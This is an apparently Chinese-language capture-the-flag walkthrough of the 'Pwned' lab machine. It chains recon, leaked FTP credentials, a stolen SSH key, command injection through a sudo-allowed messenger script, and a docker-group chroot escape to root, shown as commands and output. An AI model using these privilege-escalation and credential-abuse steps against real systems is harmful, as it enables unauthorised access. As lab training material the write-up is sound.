

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.158 -sV -A -p- 

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
|_  256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
```

## Feroxbuster

```
[root@kali] /home/kali/pwned  
❯ feroxbuster -u http://192.168.55.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x php,txt
                                                                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.55.6/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter                                                                                                                   
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter                                                                                                                   
200      GET       16l       27w      194c http://192.168.55.6/nothing/nothing.html
200      GET       75l      191w     3065c http://192.168.55.6/
200      GET        4l        7w       41c http://192.168.55.6/robots.txt
301      GET        9l       28w      314c http://192.168.55.6/nothing => http://192.168.55.6/nothing/
301      GET        9l       28w      318c http://192.168.55.6/hidden_text => http://192.168.55.6/hidden_text/
200      GET       22l       21w      211c http://192.168.55.6/hidden_text/secret.dic
```

下载这个**dic**用作扫描字典

```
[root@kali] /home/kali/pwned  
❯ feroxbuster -u http://192.168.55.6/ -w ./secret.dic -x php,txt                                                           
                                                                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.55.6/
 🚀  Threads               │ 50
 📖  Wordlist              │ ./secret.dic
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter                                                                                                                   
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter                                                                                                                   
200      GET       16l       27w      194c http://192.168.55.6/nothing/nothing.html
200      GET       75l      191w     3065c http://192.168.55.6/
301      GET        9l       28w      317c http://192.168.55.6/pwned.vuln => http://192.168.55.6/pwned.vuln/
```

存在**pwned.vuln**路径，在源代码中发现了用户凭证

```
[root@kali] /home/kali/pwned  
❯ curl http://192.168.55.6/pwned.vuln/                                 

..............
..............
<?php
//      if (isset($_POST['submit'])) {
//              $un=$_POST['username'];
//              $pw=$_POST['password'];
//
//      if ($un=='ftpuser' && $pw=='B0ss_B!TcH') {
//              echo "welcome"
//              exit();
// }
// else 
//      echo "Invalid creds"
// }
?>
```

## FTP

```
[root@kali] /home/kali/pwned  
❯ ftp 192.168.55.6                                              
Connected to 192.168.55.6.
220 (vsFTPd 3.0.3)
Name (192.168.55.6:kali): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||5205|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10  2020 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||6289|)
150 Here comes the directory listing.
-rw-r--r-- 1 0        0            2602 Jul 09  2020 id_rsa
-rw-r--r-- 1 0        0              75 Jul 09  2020 note.txt
226 Directory send OK.
ftp> 
```

得到一个密钥和留言，可以用于登录

```
[root@kali] /home/kali/pwned  
❯ chmod 600 id_rsa                                                                                                         ⏎

[root@kali] /home/kali/pwned  
❯ ssh -i id_rsa ariana@192.168.55.6
Linux pwned 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul 10 13:03:23 2020 from 192.168.18.70
ariana@pwned:~$ ls
ariana-personal.diary  user1.txt
ariana@pwned:~$ 
```

## Own selena

```
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

查看该脚本信息

```
ariana@pwned:~$ cat /home/messenger.sh 
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name 
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""
```

可以看到**msg**是拼接在 **2>/dev/null**前面没有任何过滤的

只需要将**msg**输入为**/bin/bash**即可生成一个**shell**

```
Welcome to linux.messenger 

ariana:
selena:
ftpuser:

Enter username to send message : ariana

Enter message for ariana :/bin/bash

Sending message to ariana 
whoami
selena
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

## Root

发现当前环境是**Docker**

```
selena@pwned:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:32:e3:ef brd ff:ff:ff:ff:ff:ff
    inet 192.168.55.6/24 brd 192.168.55.255 scope global dynamic enp0s3
       valid_lft 529sec preferred_lft 529sec
    inet6 fe80::a00:27ff:fe32:e3ef/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:cf:75:ba:55 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```

并且用户是在**docker**组中



- [docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/)

```
selena@pwned:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

## Summary

没啥好写的，就当刷题了
